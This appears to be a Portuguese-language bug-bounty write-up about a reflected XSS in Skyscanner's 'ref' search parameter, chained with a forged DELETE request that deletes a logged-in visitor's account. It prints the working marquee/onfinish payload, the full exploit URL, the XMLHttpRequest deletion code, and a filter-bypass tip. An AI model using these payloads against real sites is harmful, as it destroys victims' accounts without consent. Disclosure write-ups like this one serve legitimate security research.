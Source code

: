 ```yaml
---
layout: post
title:  "Bug Bounty 03 - Deleting User's Account via Reflected XSS chained with CSRF"
date:   2019-06-10 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Salve rapaziada, no post de hoje irei falar sobre uma vulnerabilidade que encontrei no programa de bug bounty do <a href="https://bugcrowd.com/skyscanner" target="_blank">Skyscanner</a> na plataforma <a href="https://bugcrowd.com/" target="_blank">Bugcrowd</a>.
</p>

<p align="justify">
Enquanto navegava pela aplicação, notei que ao fazer uma busca, haviam vários parâmetros sendo passados pelo método GET, similar a este resultado:
</p>

<p align="justify">
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/kef/190615/190622/?adults=1&children=0&adultsv2=1&childrenv2=&infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home#results</code>
<br>
</p>

<p align="justify">
Dei uma no código fonte e vi que o a URL não era refletida no código fonte da aplicação.
<br>
<br>
Depois de pesquisar um pouco mais, notei que ao realizar uma busca por locais que não haviam viagens a URL era refletida no código. Utilizei o seguinte link para encontrar essa funcionalidade:
</p>

<p align="justify">
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home&ampcurrency=BOB</code>
<br>
<br>
<img src="/images/bug_bounty/bb03/bb03-00.png"/>
</p>

<p align="justify">
Com isso, fui injetando algumas tags nos parâmetros e vendo se eles eram refletidos sem algum tipo de sanitização. Notei que ao inserir algo no parâmetro <i>ref</i> ele era refletido no código fonte e adivinhem... sem nenhum tipo de sanitização.
<br>
<br>
Ao inserir determinados payloads, eu recebia um código 500 e a aplicação era redirecionada para uma página de erro.
<br>
<br>
Depois de algumas tentativas, decidi inserir uma tag que já havia utilizado em outros programas de bug bounty:
<br>
<code>">&lt;marquee>rapt00r&lt;/marquee></code>
<br>
<br>
Esta tag cria uma espécie de painel (tipo aqueles painéis de LED que as letras ficam indo de uma ponta a outra do painel)
<br>
<br>
E bingo!!! O nosso marquee foi adicionado com sucesso no código. Infelizmente não tirei print dessa parte e nem do código fonte pois fiquei muito animado ao ver que realmente funcionou :)
</p>

<p align="justify">
Pesquisando um pouco mais sobre como utilizar a tag marquee, notei que ela suporta um evento JS chamado <i>onfinish</i>.
<br>
<br>
Então, quando o marquee era finalizado, podíamos executar códigos Javascript. Infelizmente também esqueci de tirar print dessa parte :(
<br>
<br>
Dependendo do tamanho do painel que era criado, demoraria muito para o banner finalizar. Então adicionei outros 2 atributos ao nosso marquee: <i>width</i> e <i>loop</i>, que servem para você definir o tamanho e o número de vezes que você quer que o banner apareça.
</p>

<p align="justify">
Bom, nesse ponto nosso payload estava da seguinte forma:
<br>
<code>">&lt;marquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt;/marquee></code>
<br>
</p>

<p align="justify">
Agora, o link junto com o payload ficaria da seguinte forma:
<br>
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home">&lt;marquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt;/marquee>&ampcurrency=BOB</code>
</p>

<p align="justify">
E quando o usuário acessava, ele veria o alerta em sua tela :)
</p>

<p align="justify">
Decidi então encadear com um CSRF para realizar o account takeover, mas infelizmente não havia a opção de troca de email (e para trocar a senha era necessário saber a senha antiga :/ )
</p>

<p align="justify">
Sem perder as esperanças, notei que havia a opção de deletar a conta. Hmm, interessante...
<br>
<br>
Para realizar a exclusão da conta era necessário enviar uma request (necessário que o usuário esteja autenticado) do tipo <i>DELETE</i> para o endpoint <i>/profile/user/delete-account</i> e a conta seria deletada.
</p>

<p align="justify">
Para finalizar, irei deixar o código da requisição que utilizei no evento JS para realizar a exclusão da conta do usuário que visitasse o link:
</p>

<code>var request = new XMLHttpRequest();
request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false); 
request.send();</code>

<p align="justify">
E o link final para explorar a vulnerabilidade ficou da seguinte forma:
</p>
<p align="justify">
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=https://www.google.com"/> &lt;marquee loop=1 width=0 onfinish="var request = new XMLHttpRequest(); request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false); request.send();">&lt;/marquee>&ampcurrency=BOB</code>
</p>

<p align="justify">
Como PoC desta vulnerabilidade, deixo um vídeo e vocẽs podem acessar pelo link:
<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/ZuyLvAPg-TQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</p>

<p align="justify">
É isso aí galera, recomendo utilizar outras tags além do <i>iframe, img, script</i>, pode ser que vocês consigam dar esse "bypass" da mesma forma que eu acabei de mostrar :)
</p>

Valeuuu !!!